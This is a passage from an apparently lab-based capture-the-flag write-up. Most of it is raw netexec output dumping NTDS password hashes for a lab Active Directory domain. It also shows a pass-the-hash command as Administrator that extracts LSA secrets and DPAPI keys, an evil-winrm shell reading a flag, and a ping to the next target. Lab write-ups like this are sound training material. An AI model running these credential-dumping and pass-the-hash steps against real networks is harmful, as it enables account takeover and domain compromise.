SMB         172.16.21.222   445    S021M200         junon.vl\Amelia.Kirby:1175:aad3b435b51404eeaad3b435b51404ee:5ad9f3133cccfca8d89b308dedbf50e6:::
SMB         172.16.21.222   445    S021M200         junon.vl\Tina.Smith:1176:aad3b435b51404eeaad3b435b51404ee:2e01b8e54951f04251be8ec1747f248a:::
SMB         172.16.21.222   445    S021M200         junon.vl\Elliot.Rees:1177:aad3b435b51404eeaad3b435b51404ee:d0333796b3829a63804773586f55f236:::
SMB         172.16.21.222   445    S021M200         junon.vl\Cheryl.Hopkins:1178:aad3b435b51404eeaad3b435b51404ee:b1f000d149ce3438868c202c3b970384:::
SMB         172.16.21.222   445    S021M200         junon.vl\Sandra.Simpson:1179:aad3b435b51404eeaad3b435b51404ee:fa9f10d8328cf5df952185988257e90b:::
SMB         172.16.21.222   445    S021M200         junon.vl\Owen.Barker:1180:aad3b435b51404eeaad3b435b51404ee:eb729a2b7c96bcc137cd3be785711b53:::
SMB         172.16.21.222   445    S021M200         junon.vl\Francis.Myers:1181:aad3b435b51404eeaad3b435b51404ee:04d187ff3ed131065691c20d24baa34f:::
SMB         172.16.21.222   445    S021M200         junon.vl\Sean.Harrison:1182:aad3b435b51404eeaad3b435b51404ee:f259f65f3af4d90d5e31aa0d969f2d25:::
SMB         172.16.21.222   445    S021M200         junon.vl\Gemma.Wilson:1183:aad3b435b51404eeaad3b435b51404ee:80d2082ebab2c4fc214eb46cdb023f2c:::
SMB         172.16.21.222   445    S021M200         junon.vl\Allan.Stevenson:1184:aad3b435b51404eeaad3b435b51404ee:d926af74f5d50e032b22f18b2c8111fd:::
SMB         172.16.21.222   445    S021M200         junon.vl\Glenn.Gregory:1185:aad3b435b51404eeaad3b435b51404ee:83cdc66d1167f5fef986a06fb4299de5:::
SMB         172.16.21.222   445    S021M200         junon.vl\Maria.Clarke:1186:aad3b435b51404eeaad3b435b51404ee:4460dfae35c7b84301a84ba631f2bc59:::
SMB         172.16.21.222   445    S021M200         junon.vl\Shane.Clements:1187:aad3b435b51404eeaad3b435b51404ee:fef2048b0a254e7b894f5d00673ac50e:::
SMB         172.16.21.222   445    S021M200         junon.vl\Naomi.Brown:1188:aad3b435b51404eeaad3b435b51404ee:619d2cc022edeb411ea71c1ab8c17394:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kathleen.Potter:1189:aad3b435b51404eeaad3b435b51404ee:2cfac244433934301a153c065a7d7f9f:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kerry.Smith:1190:aad3b435b51404eeaad3b435b51404ee:ce6e1a1e1869d3ccecc439096f94285f:::
SMB         172.16.21.222   445    S021M200         junon.vl\Andrea.Hewitt:1191:aad3b435b51404eeaad3b435b51404ee:4c8f1e12da2e31f319b518d82bda9cd9:::
SMB         172.16.21.222   445    S021M200         junon.vl\Norman.Ward:1192:aad3b435b51404eeaad3b435b51404ee:abe7d23c3a46c824a6b7b10c647f7629:::
SMB         172.16.21.222   445    S021M200         junon.vl\Harry.Butler:1193:aad3b435b51404eeaad3b435b51404ee:ab4792208dbb428bf61055074250c196:::
SMB         172.16.21.222   445    S021M200         junon.vl\Michael.Clarke:1194:aad3b435b51404eeaad3b435b51404ee:3b172c6a317a8babf2e871be5ea4e91b:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kenneth.Brennan:1195:aad3b435b51404eeaad3b435b51404ee:d2efa0c68725ac18314323b1dd00b8e6:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kieran.Bennett:1196:aad3b435b51404eeaad3b435b51404ee:21ea43cf1433386d474dae2e42834521:::
SMB         172.16.21.222   445    S021M200         junon.vl\Amber.Ward:1197:aad3b435b51404eeaad3b435b51404ee:eff7662acf67663c6ae282280fc56538:::
SMB         172.16.21.222   445    S021M200         junon.vl\Amber.Johnson:1198:aad3b435b51404eeaad3b435b51404ee:c0a1bb7b816c9ced7e69b2ea341146b4:::
SMB         172.16.21.222   445    S021M200         junon.vl\Lynda.Potts:1199:aad3b435b51404eeaad3b435b51404ee:2dd1a3878e6c71275e845bc10c8ed40d:::
SMB         172.16.21.222   445    S021M200         junon.vl\Mohamed.Rowley:1200:aad3b435b51404eeaad3b435b51404ee:8419c9bcf471f0fb740dbc91a460aeb6:::
SMB         172.16.21.222   445    S021M200         junon.vl\Annette.Ryan:1201:aad3b435b51404eeaad3b435b51404ee:0fb9ab58d2b2785f80ea70840ed9064e:::
SMB         172.16.21.222   445    S021M200         junon.vl\Jacob.Brennan:1202:aad3b435b51404eeaad3b435b51404ee:d5394d5b52505df7fd5c171076e2ebb5:::
SMB         172.16.21.222   445    S021M200         junon.vl\Philip.Thomas:1203:aad3b435b51404eeaad3b435b51404ee:03a4a9f1eb46a89cc1d70d8aadfc46a0:::
SMB         172.16.21.222   445    S021M200         junon.vl\Ricky.Burton:1204:aad3b435b51404eeaad3b435b51404ee:57fd6f854777376ae67931af4a169757:::
SMB         172.16.21.222   445    S021M200         junon.vl\Albert.Clark:1205:aad3b435b51404eeaad3b435b51404ee:f0ef21d537105d190fbee97ee893a95c:::
SMB         172.16.21.222   445    S021M200         junon.vl\Amber.Doyle:1206:aad3b435b51404eeaad3b435b51404ee:11c41191bd9ee51a3078daad5ce565cb:::
SMB         172.16.21.222   445    S021M200         junon.vl\Deborah.Hopkins:1207:aad3b435b51404eeaad3b435b51404ee:694879c493d931c568758cb8e30a494a:::
SMB         172.16.21.222   445    S021M200         junon.vl\Jessica.Kirk:1208:aad3b435b51404eeaad3b435b51404ee:ebe29e967598800414089cef2c3897dc:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kate.Lewis:1209:aad3b435b51404eeaad3b435b51404ee:cb4d9e5456406cc3ccc4fc01eadcc8ba:::
SMB         172.16.21.222   445    S021M200         junon.vl\Zoe.Thomas:1210:aad3b435b51404eeaad3b435b51404ee:47997fc4371e1f7e47fcdcad79b8af1f:::
SMB         172.16.21.222   445    S021M200         junon.vl\Karl.Holmes:1211:aad3b435b51404eeaad3b435b51404ee:42a26fd31dcc1832d0c49f32a9ef55f7:::
SMB         172.16.21.222   445    S021M200         junon.vl\Frederick.Jenkins:1212:aad3b435b51404eeaad3b435b51404ee:472e3e619af31ec9e61a4ef4dad812a8:::
SMB         172.16.21.222   445    S021M200         junon.vl\Patrick.Rogers:1213:aad3b435b51404eeaad3b435b51404ee:3b741fac05cb13e2983d7d240d2f9a31:::
SMB         172.16.21.222   445    S021M200         junon.vl\Helen.Lynch:1214:aad3b435b51404eeaad3b435b51404ee:5434bfb8c963b9e66c3ba0f3c699c894:::
SMB         172.16.21.222   445    S021M200         junon.vl\Lucy.Williams:1215:aad3b435b51404eeaad3b435b51404ee:e15b746ea73a86ed9c7bdf2ee0b12bad:::
SMB         172.16.21.222   445    S021M200         junon.vl\Justin.Sanders:1216:aad3b435b51404eeaad3b435b51404ee:98d933fc92fda1214cbcf6e859dff270:::
SMB         172.16.21.222   445    S021M200         junon.vl\Dylan.Nicholls:1217:aad3b435b51404eeaad3b435b51404ee:46abdfa303ab58427f61e73596b84764:::
SMB         172.16.21.222   445    S021M200         junon.vl\Henry.Turnbull:1218:aad3b435b51404eeaad3b435b51404ee:fe69a8fd5b2392b8843f3ab9eec2e67c:::
SMB         172.16.21.222   445    S021M200         junon.vl\Anna.Collins:1219:aad3b435b51404eeaad3b435b51404ee:7f2345b686120100c7ef3fa7a9012b1e:::
SMB         172.16.21.222   445    S021M200         junon.vl\Mohammad.Freeman:1220:aad3b435b51404eeaad3b435b51404ee:966a30ee119506742a24df1e251a95e7:::
SMB         172.16.21.222   445    S021M200         junon.vl\Sean.Herbert:1221:aad3b435b51404eeaad3b435b51404ee:333bd626fae2f286bd33ee8c9f511929:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kirsty.Bennett:1222:aad3b435b51404eeaad3b435b51404ee:24decdd9642227ab3aac2d7d8d153290:::
SMB         172.16.21.222   445    S021M200         junon.vl\Jeremy.Oliver:1223:aad3b435b51404eeaad3b435b51404ee:057d817193f0cee948f10cfc3efcc208:::
SMB         172.16.21.222   445    S021M200         junon.vl\Philip.Waters:1224:aad3b435b51404eeaad3b435b51404ee:957cdc1bfb27a1fc597099e01fc24975:::
SMB         172.16.21.222   445    S021M200         junon.vl\John.Butler:1225:aad3b435b51404eeaad3b435b51404ee:e780b8d597d59eb73105b35a7782edc0:::
SMB         172.16.21.222   445    S021M200         junon.vl\Terence.Young:1226:aad3b435b51404eeaad3b435b51404ee:b50bf168c996ca2a6aaab79186ff6bbc:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kimberley.Murphy:1227:aad3b435b51404eeaad3b435b51404ee:9c26e6d2879278c015147ba8c3fd0230:::
SMB         172.16.21.222   445    S021M200         junon.vl\Carolyn.Kelly:1228:aad3b435b51404eeaad3b435b51404ee:4fed2177f71a5212cd0c3af6dd37a3f0:::
SMB         172.16.21.222   445    S021M200         junon.vl\Toby.Patel:1229:aad3b435b51404eeaad3b435b51404ee:6d6ac75d7e46975f0bf6333e965ba56d:::
SMB         172.16.21.222   445    S021M200         junon.vl\Barry.Roberts:1230:aad3b435b51404eeaad3b435b51404ee:d95421cb47ece5a3db94fe411c9acd17:::
SMB         172.16.21.222   445    S021M200         junon.vl\Paige.Miah:1231:aad3b435b51404eeaad3b435b51404ee:4f34f83c96ce1bd11c123f6ae905d5b4:::
SMB         172.16.21.222   445    S021M200         junon.vl\Paula.Pearce:1232:aad3b435b51404eeaad3b435b51404ee:fc14f714959cf0d467fc5a1c742c2d0d:::
SMB         172.16.21.222   445    S021M200         junon.vl\Janet.Fraser:1233:aad3b435b51404eeaad3b435b51404ee:4e1180a22d06c66e81d0b8ef3927693e:::
SMB         172.16.21.222   445    S021M200         junon.vl\Adam.Hill:1234:aad3b435b51404eeaad3b435b51404ee:99efc5c0d61fced4050f734e67db1538:::
SMB         172.16.21.222   445    S021M200         junon.vl\Georgina.Cartwright:1235:aad3b435b51404eeaad3b435b51404ee:52a6d57a061e5edc9b466c4776f21345:::
SMB         172.16.21.222   445    S021M200         junon.vl\Antony.Edwards:1236:aad3b435b51404eeaad3b435b51404ee:e39faa3880c7db0c02ee5b312573ff89:::
SMB         172.16.21.222   445    S021M200         junon.vl\Denise.Jackson:1237:aad3b435b51404eeaad3b435b51404ee:37293fb12d7a7072c0cd0ff8bcac37e6:::
SMB         172.16.21.222   445    S021M200         junon.vl\Thomas.Brooks:1238:aad3b435b51404eeaad3b435b51404ee:74283c4be81301f11890d3dc2113d5bb:::
SMB         172.16.21.222   445    S021M200         junon.vl\Charles.Gardiner:1239:aad3b435b51404eeaad3b435b51404ee:1c8f791b2f3bb9f64e0dde27039dba5e:::
SMB         172.16.21.222   445    S021M200         junon.vl\Wendy.Green:1240:aad3b435b51404eeaad3b435b51404ee:07f79464c9dab95449fcd80136058421:::
SMB         172.16.21.222   445    S021M200         junon.vl\Mary.Clarke:1241:aad3b435b51404eeaad3b435b51404ee:1158a67c1c3321127a0f0caf2d19802e:::
SMB         172.16.21.222   445    S021M200         junon.vl\Darren.Smith:1242:aad3b435b51404eeaad3b435b51404ee:d594ce32a6d1401db0650b87d72cc5bd:::
SMB         172.16.21.222   445    S021M200         junon.vl\Melanie.Iqbal:1243:aad3b435b51404eeaad3b435b51404ee:db755165c62cde6da2b262ea0b2e5f0e:::
SMB         172.16.21.222   445    S021M200         junon.vl\Leonard.Holloway:1244:aad3b435b51404eeaad3b435b51404ee:cb04846e87b882c7aeea984cc351a83f:::
SMB         172.16.21.222   445    S021M200         junon.vl\Julian.Coleman:1245:aad3b435b51404eeaad3b435b51404ee:b37a96061441c2eac7e242f9e175c245:::
SMB         172.16.21.222   445    S021M200         junon.vl\Albert.Lee:1246:aad3b435b51404eeaad3b435b51404ee:b56d5f8b927277a81107667f93759b2b:::
SMB         172.16.21.222   445    S021M200         junon.vl\Philip.Owen:1247:aad3b435b51404eeaad3b435b51404ee:9c527e0f0339e26a7bdac96ae68b9b85:::
SMB         172.16.21.222   445    S021M200         junon.vl\Wayne.King:1248:aad3b435b51404eeaad3b435b51404ee:f6750aa897a680139738f54adb1edbfc:::
SMB         172.16.21.222   445    S021M200         junon.vl\Carl.Bell:1249:aad3b435b51404eeaad3b435b51404ee:797b2be8d30edc2bd4a531135e2cb9b5:::
SMB         172.16.21.222   445    S021M200         junon.vl\Geoffrey.Knight:1250:aad3b435b51404eeaad3b435b51404ee:94bd0348160eb7da64b183390c67ead5:::
SMB         172.16.21.222   445    S021M200         junon.vl\Julian.Evans:1251:aad3b435b51404eeaad3b435b51404ee:e4e62754d30bc09d5c851761278e0be5:::
SMB         172.16.21.222   445    S021M200         junon.vl\Marie.O'Brien:1252:aad3b435b51404eeaad3b435b51404ee:83a2a34a2f8024ba154a4793d0ace075:::
SMB         172.16.21.222   445    S021M200         junon.vl\Janet.Buckley:1253:aad3b435b51404eeaad3b435b51404ee:1cbeac5ef0b73610b7aa5e58efa93a21:::
SMB         172.16.21.222   445    S021M200         junon.vl\Craig.Brown:1254:aad3b435b51404eeaad3b435b51404ee:6ba50d09754baab34ee416c2efb1b09a:::
SMB         172.16.21.222   445    S021M200         junon.vl\Tony.Williams:1255:aad3b435b51404eeaad3b435b51404ee:59b21b7d0de6a3b5f1cd92d11f06c270:::
SMB         172.16.21.222   445    S021M200         junon.vl\Natalie.Middleton:1256:aad3b435b51404eeaad3b435b51404ee:24b18070a5f8c8d5805b283e59c53b18:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kenneth.Jones:1257:aad3b435b51404eeaad3b435b51404ee:3b18013b173189f6946fe460e257bb2c:::
SMB         172.16.21.222   445    S021M200         junon.vl\Jamie.Walton:1258:aad3b435b51404eeaad3b435b51404ee:f8801ef4dd020ab00561bfeb619538ac:::
SMB         172.16.21.222   445    S021M200         junon.vl\Neil.Parker:1259:aad3b435b51404eeaad3b435b51404ee:c56fdf50b7abedb70729ab906d67e770:::
SMB         172.16.21.222   445    S021M200         junon.vl\Mandy.Townsend:1260:aad3b435b51404eeaad3b435b51404ee:2ecec32e9cc2c75e5bd4aa14273eb4be:::
SMB         172.16.21.222   445    S021M200         junon.vl\Sandra.Watts:1261:aad3b435b51404eeaad3b435b51404ee:d14d46548daef4b3b8b3c92fd8b2199a:::
SMB         172.16.21.222   445    S021M200         junon.vl\Lauren.Lawrence:1262:aad3b435b51404eeaad3b435b51404ee:60da677826f537f18c9200748e032292:::
SMB         172.16.21.222   445    S021M200         junon.vl\Rhys.Rees:1263:aad3b435b51404eeaad3b435b51404ee:b31fe95c745a200d05cf5c83c4ee0bfe:::
SMB         172.16.21.222   445    S021M200         junon.vl\Donald.Bolton:1264:aad3b435b51404eeaad3b435b51404ee:0bf9926c5ddd2a12df28462ef021ba9b:::
SMB         172.16.21.222   445    S021M200         junon.vl\Brandon.Reynolds:1265:aad3b435b51404eeaad3b435b51404ee:dcf1c0d9e1e865d308ff407e3f994029:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kate.Phillips:1266:aad3b435b51404eeaad3b435b51404ee:f0b259b102ea25be7e55342182f9fb68:::
SMB         172.16.21.222   445    S021M200         junon.vl\Gavin.Bentley:1267:aad3b435b51404eeaad3b435b51404ee:56e6f4dbfffb8104dcb2a17260acce9e:::
SMB         172.16.21.222   445    S021M200         junon.vl\Jane.Jackson:1268:aad3b435b51404eeaad3b435b51404ee:de6d82f0adcc457f77702930b14c1df3:::
SMB         172.16.21.222   445    S021M200         junon.vl\Connor.Jones:1269:aad3b435b51404eeaad3b435b51404ee:1156eefd32c6f8536aea50d72071d751:::
SMB         172.16.21.222   445    S021M200         junon.vl\Barbara.Fitzgerald:1270:aad3b435b51404eeaad3b435b51404ee:2ce0157b1ccf1fa0b304588177796c8b:::
SMB         172.16.21.222   445    S021M200         junon.vl\Denise.Barton:1271:aad3b435b51404eeaad3b435b51404ee:9e3b295b987c3ccbeb4815574d33c48b:::
SMB         172.16.21.222   445    S021M200         junon.vl\Sam.Rose:1272:aad3b435b51404eeaad3b435b51404ee:eb82d2b7cac3013a02bd2726f5a37e91:::
SMB         172.16.21.222   445    S021M200         junon.vl\Jeremy.Hamilton:1273:aad3b435b51404eeaad3b435b51404ee:017dfa32b9e6d18ee5bdf534fb1301ae:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kelly.Carroll:1274:aad3b435b51404eeaad3b435b51404ee:e62423def18b2dc237e54d9753142fb1:::
SMB         172.16.21.222   445    S021M200         junon.vl\Ruth.Smith:1275:aad3b435b51404eeaad3b435b51404ee:c1539aa98a36a5f41b33313e3ba85c37:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kim.Young:1276:aad3b435b51404eeaad3b435b51404ee:c548c10f971ada5c1a44f07eb84ab50b:::
SMB         172.16.21.222   445    S021M200         junon.vl\Paul.Ryan:1277:aad3b435b51404eeaad3b435b51404ee:76865eedd0ab0b2ab1cd4c2cc40c5055:::
SMB         172.16.21.222   445    S021M200         junon.vl\Kerry.Forster:1278:aad3b435b51404eeaad3b435b51404ee:ea21b1d3ca228dc4c96cd591246ffcfe:::
SMB         172.16.21.222   445    S021M200         junon.vl\Gareth.Campbell:1279:aad3b435b51404eeaad3b435b51404ee:b4ff47773a40dc5fadbd3a51f6f77aea:::
SMB         172.16.21.222   445    S021M200         junon.vl\Carolyn.Brown:1280:aad3b435b51404eeaad3b435b51404ee:d5dbcd1fed9fabf151aaf59f5aac373a:::
SMB         172.16.21.222   445    S021M200         junon.vl\Stanley.James:1281:aad3b435b51404eeaad3b435b51404ee:c31fc7931831b0e71a99fb041b6d50aa:::
SMB         172.16.21.222   445    S021M200         junon.vl\Gavin.Dunn:1282:aad3b435b51404eeaad3b435b51404ee:bf90b9e5086c9f45347ec8c0e9317f60:::
SMB         172.16.21.222   445    S021M200         junon.vl\Clare.West:1283:aad3b435b51404eeaad3b435b51404ee:cdd9295979d25a47e207c268b9716b53:::
SMB         172.16.21.222   445    S021M200         junon.vl\Adrian.Burton:1284:aad3b435b51404eeaad3b435b51404ee:51fdb92b56695c90d1d4aa615c3acc7b:::
SMB         172.16.21.222   445    S021M200         junon.vl\Mandy.Clayton:1285:aad3b435b51404eeaad3b435b51404ee:318c8a0dc68ae11c7ebd21d41b0d8e15:::
SMB         172.16.21.222   445    S021M200         junon.vl\Ross.Williams:1286:aad3b435b51404eeaad3b435b51404ee:5b94da56811d93897fe61b7226f1638c:::
SMB         172.16.21.222   445    S021M200         junon.vl\Damian.Taylor:1287:aad3b435b51404eeaad3b435b51404ee:e538541d66031f3530606cb2a235911b:::
SMB         172.16.21.222   445    S021M200         junon.vl\Ricky.Yates:1288:aad3b435b51404eeaad3b435b51404ee:763dc2c8ed98fbac9ef455f2253a9ff5:::
SMB         172.16.21.222   445    S021M200         junon.vl\Stanley.Turner:1289:aad3b435b51404eeaad3b435b51404ee:a9217cc9284e8099935d089cced0c567:::
SMB         172.16.21.222   445    S021M200         junon.vl\Clifford.Harvey:1290:aad3b435b51404eeaad3b435b51404ee:e30cb940c984451a1e491a87ea0dea4e:::
SMB         172.16.21.222   445    S021M200         junon.vl\Fiona.Parker:1291:aad3b435b51404eeaad3b435b51404ee:81f35ac75493ee1ff5c7d294937fcef2:::
SMB         172.16.21.222   445    S021M200         junon.vl\Tracy.Singh:1292:aad3b435b51404eeaad3b435b51404ee:4268cf971f6390f597c1fd9fb01546fb:::
SMB         172.16.21.222   445    S021M200         junon.vl\Danielle.Blake:1293:aad3b435b51404eeaad3b435b51404ee:52a87a7e29c04b8725664ee85d7cc2be:::
SMB         172.16.21.222   445    S021M200         junon.vl\Donna.Taylor:1294:aad3b435b51404eeaad3b435b51404ee:89a276ec18fcac95188e2c8fcd7482e7:::
SMB         172.16.21.222   445    S021M200         junon.vl\Stephen.Bond:1295:aad3b435b51404eeaad3b435b51404ee:66754dc28fc0f30deb9cf3868f879803:::
SMB         172.16.21.222   445    S021M200         junon.vl\Hugh.Davies:1296:aad3b435b51404eeaad3b435b51404ee:869671253303f5a876437992687e482c:::
SMB         172.16.21.222   445    S021M200         junon.vl\Jean.Brown:1297:aad3b435b51404eeaad3b435b51404ee:ad5c2442fc92dbcf0eafd8f8e3649ed6:::
SMB         172.16.21.222   445    S021M200         junon.vl\Hilary.Robinson:1298:aad3b435b51404eeaad3b435b51404ee:a0a5a06827ba0cc27de626bc44a42ecd:::
SMB         172.16.21.222   445    S021M200         junon.vl\Colin.Robinson:1299:aad3b435b51404eeaad3b435b51404ee:683cc53d6927fdaf43fbbdd7dd66f3bc:::
SMB         172.16.21.222   445    S021M200         junon.vl\Ruth.Patel:1300:aad3b435b51404eeaad3b435b51404ee:d378eae9ec64e9cdff40a6d95d11db1b:::
SMB         172.16.21.222   445    S021M200         junon.vl\Garry.Smith:1301:aad3b435b51404eeaad3b435b51404ee:3035115a31e3dda6b3bff17fb99b4a42:::
SMB         172.16.21.222   445    S021M200         junon.vl\Denise.Harris:1302:aad3b435b51404eeaad3b435b51404ee:a7a19bb2d7d7903fa6b9b6f6e6521a60:::
SMB         172.16.21.222   445    S021M200         junon.vl\Judith.Johnson:1303:aad3b435b51404eeaad3b435b51404ee:f60d559be1aacd855b022b7fc3ee401b:::
SMB         172.16.21.222   445    S021M200         eu.junon.vl\svc_backup:1305:aad3b435b51404eeaad3b435b51404ee:78265cfb10b386484a94d4fda32a539f:::
SMB         172.16.21.222   445    S021M200         eu.junon.vl\sa-kmorris:1307:aad3b435b51404eeaad3b435b51404ee:5d4d1612f20614cb49ffdf0c6f7377f7:::
SMB         172.16.21.222   445    S021M200         eu.junon.vl\sa-kyoung:1308:aad3b435b51404eeaad3b435b51404ee:5a3150b71e40718688d7e32e16574f33:::
SMB         172.16.21.222   445    S021M200         eu.junon.vl\dom-aclark:1309:aad3b435b51404eeaad3b435b51404ee:31e0f67f545a29cffa191a6bce3f2532:::
SMB         172.16.21.222   445    S021M200         eu.junon.vl\dom-alee:1310:aad3b435b51404eeaad3b435b51404ee:4a7cc0d969a9b464b18d5dcd1f5f8016:::
SMB         172.16.21.222   445    S021M200         eu.junon.vl\sa-dwest:1313:aad3b435b51404eeaad3b435b51404ee:fa277a017b90f30048992530d3f9b75f:::
SMB         172.16.21.222   445    S021M200         eu.junon.vl\svc_adm:1603:aad3b435b51404eeaad3b435b51404ee:ce47782e6422a14f92900d7fe2229852:::
SMB         172.16.21.222   445    S021M200         S021M200$:1000:aad3b435b51404eeaad3b435b51404ee:afa5571cf61a2ebc1d1cbe94cead8de4:::
SMB         172.16.21.222   445    S021M200         S021M215$:1319:aad3b435b51404eeaad3b435b51404ee:6000ff862743d888ccd308f5f89a3b33:::
SMB         172.16.21.222   445    S021M200         ATTACKER$:11101:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         172.16.21.222   445    S021M200         WORK-JUNON$:1316:aad3b435b51404eeaad3b435b51404ee:17526bf72289fb5ecf2e4f5d92ea8bdd:::
SMB         172.16.21.222   445    S021M200         [+] Dumped 214 NTDS hashes to /home/user/.nxc/logs/ntds/172.16.21.222_None_2026-03-31_142235.ntds of which 210 were added to the database
SMB         172.16.21.222   445    S021M200         [*] To extract only enabled accounts from the output file, run the following command: 
SMB         172.16.21.222   445    S021M200         [*] cat /home/user/.nxc/logs/ntds/172.16.21.222_None_2026-03-31_142235.ntds | grep -iv disabled | cut -d ':' -f1
SMB         172.16.21.222   445    S021M200         [*] grep -iv disabled /home/user/.nxc/logs/ntds/172.16.21.222_None_2026-03-31_142235.ntds | cut -d ':' -f1
                                                                                                                                                                  
```

And some creds but notjing came out of the DC:

```bash
─$ netexec smb 172.16.21.222 -u Administrator -H ea2c613e21c9c999e7a1e19e0136427e --lsa --dpapi
SMB         172.16.21.222   445    S021M200         [*] Windows Server 2022 Build 20348 x64 (name:S021M200) (domain:eu.junon.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.21.222   445    S021M200         [+] eu.junon.vl\Administrator:ea2c613e21c9c999e7a1e19e0136427e (Pwn3d!)
SMB         172.16.21.222   445    S021M200         [+] Dumping LSA secrets
SMB         172.16.21.222   445    S021M200         EU-JUNON\S021M200$:aes256-cts-hmac-sha1-96:77675ef25217be4871f32f8f55229574f021e75005ca99b8837345c304380e29
SMB         172.16.21.222   445    S021M200         EU-JUNON\S021M200$:aes128-cts-hmac-sha1-96:2fcb24d0c30cb7b157682aec03315c4c
SMB         172.16.21.222   445    S021M200         EU-JUNON\S021M200$:des-cbc-md5:fed6d09e3b4a6140
SMB         172.16.21.222   445    S021M200         EU-JUNON\S021M200$:plain_password_hex:ab082e5bf95742cd9f981cefe7c9e63b1302e7ab81b1f43a85f91069925b5085fa6380864129b715ddde16301b365efe0febedc101373e398bc238e22e5eb41017cc68ae4bd9d3f46f4d1a0c00e0de59c6eb75d19cbd1acd52ec79f6b239b5a7d9eb1620282b7ad6db31b6e76dfd03488e27739ee216a4690ea0aaab3e5b7619c5c5327310696d4b1ff3b61684d90b652b22a07422475ee892e2e74113a5a1dc307ec5e507354c60b8b2bbcc16f6e77a8140faf4f00f880549746c7ecee75b131c73f50c6221027ce81244877fddd259585ebd1af557924fbd779483bc0cd82ffd1fa5ec32fd2a7c2b360f9bcf513a3e
SMB         172.16.21.222   445    S021M200         EU-JUNON\S021M200$:aad3b435b51404eeaad3b435b51404ee:afa5571cf61a2ebc1d1cbe94cead8de4:::
SMB         172.16.21.222   445    S021M200         dpapi_machinekey:0x354951a034fa77bf8521c4ad18dfcce78460cabb
dpapi_userkey:0xcbdf7e2915b4d289c71fd54fe284d96822c7fe4c
SMB         172.16.21.222   445    S021M200         [+] Dumped 6 LSA secrets to /home/user/.nxc/logs/lsa/172.16.21.222_None_2026-03-31_142343.secrets and /home/user/.nxc/logs/lsa/172.16.21.222_None_2026-03-31_142343.cached
SMB         172.16.21.222   445    S021M200         [+] User is Domain Administrator, exporting domain backupkey...
SMB         172.16.21.222   445    S021M200         [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.21.222   445    S021M200         [+] Got 13 decrypted masterkeys. Looting secrets...
                                                                                                                        
```

And grab another flag:

```bash
vil-winrm-py PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-a----         5/22/2025   9:43 PM             39 flag.txt                                                              


evil-winrm-py PS C:\Users\Administrator\Desktop> cat flag.txt
WUTAI{99a8cd8a9778a367ce77b1c2d514906e}

```

# Moving forward

Now the last piece of the puzzle is in this machine:

```bash
evil-winrm-py PS C:\Users\Administrator\Desktop> ping it.wutai.vl

Pinging it.wutai.vl [172.16.22.200] with 32 bytes of data:
Reply from 172.16.22.200: bytes=32 time<1ms TTL=128
Reply from 172.16.22.200: bytes=32 time<1ms TTL=128
Reply from 172.16.22.200: bytes=32 time<1ms TTL=128
Reply from 172.16.22.200: bytes=32 time<1ms TTL=128

Ping statistics for 172.16.22.200:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
evil-winrm-py PS C:\Users\Administrator\Desktop>

```